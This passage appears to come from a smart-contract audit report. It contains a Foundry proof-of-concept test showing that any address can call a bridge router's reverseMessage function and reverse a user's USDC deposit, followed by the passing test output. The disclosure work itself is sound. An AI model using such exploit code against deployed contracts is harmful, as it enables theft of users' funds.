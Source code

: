 ```solidity
    }

    function _checkSeccuss(bytes32 msgId) internal {
        vm.expectEmit();
        emit BridgeRouter.MessageSucceeded(1, msgId);
    }

    function _checkMessageSeccuss() internal {
        // vm.exepctEmit(true,false,false);
        // emit BridgeRouter.MessageSuccess(0,"");
    }
}

```


Second File (includes the poc): `test/pocs/forktest.t.sol`
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.23;

import "./base_test.sol";

event MessageSucceeded(uint16 adapterId, bytes32 indexed messageId);

event MessageFailed(uint16 adapterId, bytes32 indexed messageId, bytes reason);

contract Pocs is baseTest {
    ////////////////////////////////////////////////////////////////////////////////////////////

    // @remind : poc of non access controle on reverse messages :
    function test_noAccessControlOnReverse() public {
        // get bob balance before action :
        uint256 bobBalanceBefore = IERC20(USDC_TOKEN).balanceOf(bob);
        bytes32 loanId = aliceLoanIds[0];
        bytes32 msgId = _getMsgId();
        _approveUsdc(bob, address(spokeUsdc), 1000e6);
        _createLoanAndDeposit(bobAccountId, bob, loanId, STABELE_LOAN_TYPE_ID, 1000e6, spokeUsdc);
        BridgeRouter router = BridgeRouter(hub.getBridgeRouter());
        assertTrue(router.seenMessages(1, msgId));
        uint256 bobBalanceAfter = IERC20(USDC_TOKEN).balanceOf(bob);
        assertTrue(bobBalanceBefore - bobBalanceAfter == 1000e6);
        // reverse the tx by a random address :
        vm.prank(address(32423));
        router.reverseMessage(1, msgId, "");
        assertTrue(bobBalanceBefore == IERC20(USDC_TOKEN).balanceOf(bob));
    }
}

```

This is the resul if we execute the test with `forge test --mt test_noAccessControlOnReverse  -vv`

```log
Ran 1 test for test/pocs/forktest.t.sol:Pocs
[PASS] test_noAccessControlOnReverse() (gas: 577286)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 589.91ms (4.21ms CPU time)

Ran 1 test suite in 592.58ms (589.91ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```